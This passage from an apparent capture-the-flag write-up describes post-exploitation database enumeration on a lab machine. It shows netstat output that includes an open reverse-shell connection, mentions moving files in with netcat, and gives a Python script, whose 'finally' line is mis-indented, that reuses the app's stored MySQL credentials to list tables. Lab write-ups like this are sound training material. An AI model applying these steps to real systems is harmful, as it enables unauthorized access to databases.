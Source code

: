 ### Database enumeration

Using ```netstat -alnp```, we can see the connections on this machine

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.11:44115        0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      1/python
tcp        0      0 172.20.0.6:58526        172.20.0.4:3306         ESTABLISHED 1/python
tcp        0     54 172.20.0.6:44753        10.10.14.26:1234        ESTABLISHED 59/sh
tcp        1      0 172.20.0.6:8888         172.20.0.7:52584        CLOSE_WAIT  1/python
udp        0      0 127.0.0.11:49471        0.0.0.0:*                           -
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node PID/Program name    Path
```

We can see that the database used for this app is running on a different machine, and we do not have the ```mysql``` binary here. One method I used to get around this was to query the database using the code from dbtest.py. 

__*Note*__ : Since we are not in a proper shell, editing files with vi is quite a pain. I used ```netcat``` to pass files from my remote machine to the machine we're on.
```
import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `*` FROM INFORMATION_SCHEMA.TABLES" 
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
connection.close()
```

Some of the tables we can enumerate:
```
{'TABLE_CATALOG': 'def', 'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'brew', 'TABLE_TYPE': 'BASE TABLE', 'ENGINE': 'InnoDB', 'VERSION':
10, 'ROW_FORMAT': 'Dynamic', 'TABLE_ROWS': 2338, 'AVG_ROW_LENGTH': 105, 'DATA_LENGTH': 245760, 'MAX_DATA_LENGTH': 0, 'INDEX_LENGTH':
0, 'DATA_FREE': 0, 'AUTO_INCREMENT': 2350, 'CREATE_TIME': datetime.datetime(2019, 2, 7, 1, 23, 11), 'UPDATE_TIME': None,
'CHECK_TIME': None, 'TABLE_COLLATION': 'utf8mb4_0900_ai_ci', 'CHECKSUM': None, 'CREATE_OPTIONS': '', 'TABLE_COMMENT': ''},
{'TABLE_CATALOG': 'def', 'TABLE_SCHEMA': 'craft', 'TABLE_NAME': 'user', 'TABLE_TYPE': 'BASE TABLE', 'ENGINE': 'InnoDB', 'VERSION':
10, 'ROW_FORMAT': 'Dynamic', 'TABLE_ROWS': 3, 'AVG_ROW_LENGTH': 5461, 'DATA_LENGTH': 16384, 'MAX_DATA_LENGTH': 0, 'INDEX_LENGTH': 0,
'DATA_FREE': 0, 'AUTO_INCREMENT': 6, 'CREATE_TIME': datetime.datetime(2019, 2, 7, 1, 23, 15), 'UPDATE_TIME': None, 'CHECK_TIME':
None, 'TABLE_COLLATION': 'utf8mb4_0900_ai_ci', 'CHECKSUM': None, 'CREATE_OPTIONS': '', 'TABLE_COMMENT': ''}, {'TABLE_CATALOG':
'def', 'TABLE_SCHEMA': 'information_schema', 'TABLE_NAME': 'CHARACTER_SETS', 'TABLE_TYPE': 'SYSTEM VIEW', 'ENGINE': None, 'VERSION':
```